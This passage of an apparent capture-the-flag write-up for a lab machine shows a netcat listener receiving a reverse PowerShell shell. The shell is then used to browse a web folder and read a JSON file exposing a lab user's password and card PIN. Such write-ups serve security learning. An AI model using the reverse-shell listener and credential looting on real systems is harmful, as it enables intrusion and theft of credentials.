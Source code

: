 ```php
$ sudo rlwrap  nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.175.242.
Ncat: Connection from 10.129.175.242:53832.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

whoami
whoami
breadcrumbs\www-data
PS C:\Users\www-data\Desktop\xampp\htdocs\portal\uploads>
```

## Pizza

Looking around there is an odd looking folder which has mostly similar files with just one standing out. Looking at the content of the file we find the credentials for the user `juliette`.

```php
dir


    Directory: C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/28/2020   1:48 AM            170 alex.disabled
-a----        11/28/2020   1:48 AM            170 emma.disabled
-a----        11/28/2020   1:48 AM            170 jack.disabled
-a----        11/28/2020   1:48 AM            170 john.disabled
-a----         1/17/2021   3:11 PM            192 juliette.json
-a----        11/28/2020   1:48 AM            170 lucas.disabled
-a----        11/28/2020   1:48 AM            170 olivia.disabled
-a----        11/28/2020   1:48 AM            170 paul.disabled
-a----        11/28/2020   1:48 AM            170 sirine.disabled
-a----        11/28/2020   1:48 AM            170 william.disabled


type juliette.json
type juliette.json
{
        "pizza" : "margherita",
        "size" : "large",
        "drink" : "water",
        "card" : "VISA",
        "PIN" : "9890",
        "alternate" : {
                "username" : "juliette",
                "password" : "jUli901./())!",
        }
}
PS C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData>
```
